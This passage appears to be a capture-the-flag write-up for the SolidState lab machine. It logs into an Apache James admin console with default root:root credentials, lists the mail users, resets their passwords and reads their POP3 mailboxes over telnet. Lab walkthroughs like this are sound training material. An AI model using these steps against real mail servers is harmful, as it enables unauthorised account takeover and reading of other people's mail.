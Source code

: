 Default credentials

```bash
root:root
```

After that we can connect and see the users 

```bash
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

So if we see the webpage of the link  we can change the credentials of the users because we're root 

```bash
setpassword james james123
Password for james reset
```

We can try with the user james

```bash
❯ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER james
+OK
PASS james123
+OK Welcome james
```

But we don't have nothing

```bash
HELP
-ERR
?
-ERR
LIST 
+OK 0 0
.
```

Now change the password of thomas but nothing too 

```bash
❯ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER Thomas
+OK
PASS thomas123
-ERR Authentication failed.
USER thomas
+OK
PASS thomas123
+OK Welcome thomas
LIST
+OK 0 0
.
```